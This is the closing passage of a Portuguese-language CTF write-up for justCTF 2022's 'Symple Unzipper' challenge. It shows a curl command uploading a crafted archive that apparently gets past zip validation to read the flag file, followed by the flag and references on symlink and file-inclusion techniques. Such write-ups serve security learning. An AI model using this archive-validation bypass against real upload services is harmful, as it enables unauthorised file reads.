 Com isso, vamos enganar a validação do zip e, mesmo assim, permitir que a extração seja do próprio arquivo TAR, devido à extensão (.tar).

Chega de teste local, bora pro server:

```bash
 curl -X 'POST' \
>   'http://symple-unzipper.web.jctf.pro/extract' \
>   -H 'accept: application/json' \
>   -H 'Content-Type: multipart/form-data' \
>   -F 'file=@hackit.tar;type=application/tar'

{"flag.lnk":"justCTF{siymmple_challll_bay_sultanik_o/}"}
```

Flag na mão!

```
justCTF{siymmple_challll_bay_sultanik_o/}
```

## Referências
* [CTF Time Event](https://ctftime.org/event/1631)
* [justCTF](https://2022.justctf.team/)
* [Defenit CTF 2020 — Write-Up — Tar Analyzer (Web Hacking)](https://neptunian.medium.com/defenit-ctf-2020-write-up-tar-analyzer-web-hacking-29ed5be3f5f4)
* [Zip Symlink](https://book.hacktricks.xyz/pentesting-web/file-upload#symlink)
* [LFI (Local File Inclusion)](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
* [patool](https://pypi.org/project/patool/)
* [7z(1) - Linux man page](https://linux.die.net/man/1/7z)
* [Mitra](https://github.com/corkami/mitra)
* [Github repo with the artifacts discussed here](https://github.com/Neptunians/tsj-2022-writeups)
* Team: [FireShell](https://fireshellsecurity.team/)
* Team Twitter: [@fireshellst](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](https://twitter.com/NeptunianHacks) 